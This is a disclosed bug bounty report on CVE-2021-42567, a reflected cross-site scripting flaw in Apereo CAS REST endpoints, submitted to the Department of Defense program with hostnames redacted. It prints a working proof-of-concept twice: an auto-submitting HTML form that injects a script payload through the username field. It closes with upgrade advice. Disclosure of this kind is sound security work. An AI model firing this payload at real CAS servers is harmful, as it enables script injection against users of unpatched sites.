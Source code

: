 # CVE-2021-42567 - Apereo CAS Reflected XSS on https://█████████

## Report Details
- **Report ID**: 1446236
- **URL**: https://hackerone.com/reports/1446236
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-01-11T08:50:21.523Z
- **Disclosed**: 2022-03-18T18:58:38.943Z

## Reporter
- **Username**: 3th1c_yuk1
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Apereo CAS through 6.4.1 allows XSS via POST requests sent to the REST API endpoints. CAS is vulnerable to a Reflected Cross-Site Scripting attack, via POST requests sent to the REST API endpoints. The payload could be injected on URLs: /███████/. Malicious scripts can be submitted to CAS via parameters such as the ticket id or the username. That results in CAS rejecting the request and producing a response in which the value of the vulnerable parameter is echoed back, resulting in its execution.

VULNERABLE SITE: https://██████████

VULNERABLE ENDPOINT: https://███████/█████████/

PROOF OF CONCEPT:
-----------------------
* It seems easy as you just need to drop the XSS payload inside the parameter "username" or at the end of the endpoint's path (in URL-encoded form, of course). Apereo CAS rejects the request and echoed back the ticket's ID or the username in the HTTP response without sanitizing.

<html>
  <body onload="document.forms[0].submit()">
    <form action="https://█████████/████████/" method="POST">
      <input type="hidden" name="username" value="<img/src/onerror=alert(document.domain)>" />
      <input type="hidden" name="password" value="Mellon" />
    </form>
  </body>
</html>

* Save the above HTML code as xss.html
* Open it on the browser 
* You can notice that the XSS is triggered via a POST request.

## Impact

Apereo CAS through 6.4.1 allows XSS via POST requests sent to the REST API endpoints. 

REFERENCES :
---------------
    * https://apereo.github.io/2021/10/18/restvuln/
    * https://www.sudokaikan.com/2021/12/exploit-cve-2021-42567-post-based-xss.html
    * https://github.com/sudohyak/exploit/blob/dcf04f704895fe7e042a0cfe9c5ead07797333cc/CVE-2021-42567/README.md
    * https://nvd.nist.gov/vuln/detail/CVE-2021-42567
    * https://github.com/apereo/cas/releases

Best Regards,
3th1c_yuk1

## System Host(s)
█████████

## Affected Product(s) and Version(s)
Apereo CAS

## CVE Numbers
CVE-2021-42567

## Steps to Reproduce
* It seems easy as you just need to drop the XSS payload inside the parameter "username" or at the end of the endpoint's path (in URL-encoded form, of course). Apereo CAS rejects the request and echoed back the ticket's ID or the username in the HTTP response without sanitizing.

<html>
  <body onload="document.forms[0].submit()">
    <form action="https://██████/██████████/" method="POST">
      <input type="hidden" name="username" value="<img/src/onerror=alert(document.domain)>" />
      <input type="hidden" name="password" value="Mellon" />
    </form>
  </body>
</html>

* Save the above HTML code as xss.html
* Open it on the browser 
* You can notice that the XSS is triggered via a POST request.

## Suggested Mitigation/Remediation Actions
You should check the server's version and update to ... not the versions 6.3.7.1 and 6.4.2, but the versions 6.3.7.4 and 6.4.4.2 to mitigate this XSS.



## Attachments
No attachments
